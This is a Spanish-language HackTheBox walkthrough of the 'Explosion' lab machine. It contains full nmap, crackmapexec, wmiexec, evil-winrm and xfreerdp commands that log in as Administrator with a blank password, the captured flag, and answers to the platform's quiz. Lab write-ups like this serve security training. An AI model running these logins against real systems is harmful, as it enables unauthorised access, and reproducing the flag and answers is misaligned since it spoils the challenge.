


Resolución de la máquina Explosion de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.18.73
Nmap scan report for 10.129.18.73
PORT STATE SERVICE
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3389/tcp open ms-wbt-server
5985/tcp open wsman
Ya que esta el puerto 445 abierto podemos ver si el usuario Administrator nos permite conectarnos sin contraseña
❯ crackmapexec smb 10.129.18.73 -u Administrator -p ''
SMB 10.129.18.73 445 EXPLOSION [*] Windows 10.0 Build 17763 x64 (name:EXPLOSION) (domain:Explosion) (signing:False) (SMBv1:False)
SMB 10.129.18.73 445 EXPLOSION [+] Explosion\Administrator: (Pwn3d!)
Nos dice (Pwned!), podemos conectarnos con psexec o en mi caso prefiero wmiexec y leer la flag
❯ impacket-wmiexec WORKGROUP/Administrator@10.129.18.73 -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\> whoami
explosion\administrator
C:\> type C:\Users\Administrator\Desktop\flag.txt
951fa96d7830c451b536be5a6be008a0
C:\>
Vemos el 5985 abierto asi que podemos probar conectarnos sin contraseña pero con evil-winrm
❯ evil-winrm -i 10.129.18.73 -u Administrator -p ''
PS C:\Users\Administrator\Documents> whoami
explosion\administrator
PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
951fa96d7830c451b536be5a6be008a0
PS C:\Users\Administrator\Documents>
Por ultimo podemos ver el 3389 que es rdp asi que podemos probar autenticarnos sin contraseña, lo unico usaremos /cert:ignore para evitar errores de certificado
❯ xfreerdp /v:10.129.18.73 /cert:ignore /u:Administrator /p:
[20:52:43:713] [254364:254371] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[20:52:43:713] [254364:254371] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[20:52:43:713] [254364:254371] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[20:52:43:713] [254364:254371] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[20:52:43:725] [254364:254371] [INFO][com.freerdp.client.x11] - Property 373 does not exist
[20:52:44:067] [254364:254371] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[20:52:44:088] [254364:254371] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[20:52:44:088] [254364:254371] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
[20:52:47:187] [254364:254371] [INFO][com.freerdp.gdi] - Local framebuffer format PIXEL_FORMAT_BGRX32
[20:52:47:187] [254364:254371] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_RGB16
[20:52:47:255] [254364:254371] [INFO][com.winpr.clipboard] - initialized POSIX local file subsystem
[20:52:47:312] [254364:254371] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[20:52:48:175] [254364:254371] [INFO][com.freerdp.core] - rdp_set_error_info:freerdp_set_last_error_ex resetting error state
Al conectarnos nos lanza una ventana grafica donde podemos interactual con el servidor con los privilegios del usuario Administrator

Cerramos lo que tenemos abierto y abrimos la flag

Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
What does the 3-letter acronym RDP stand for?
- Remote Desktop Protocol
What is a 3-letter acronym that refers to interaction with the host through a command line interface?
- CLI
What about graphical user interface interactions?
- GUI
What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?
- telnet
What is the name of the service running on port 3389 TCP?
- ms-wbt-server
What is the switch used to specify the target host's IP address when using xfreerdp?
- /v:
What username successfully returns a desktop projection to us with a blank password?
- Administrator
Submit root flag
- 951fa96d7830c451b536be5a6be008a0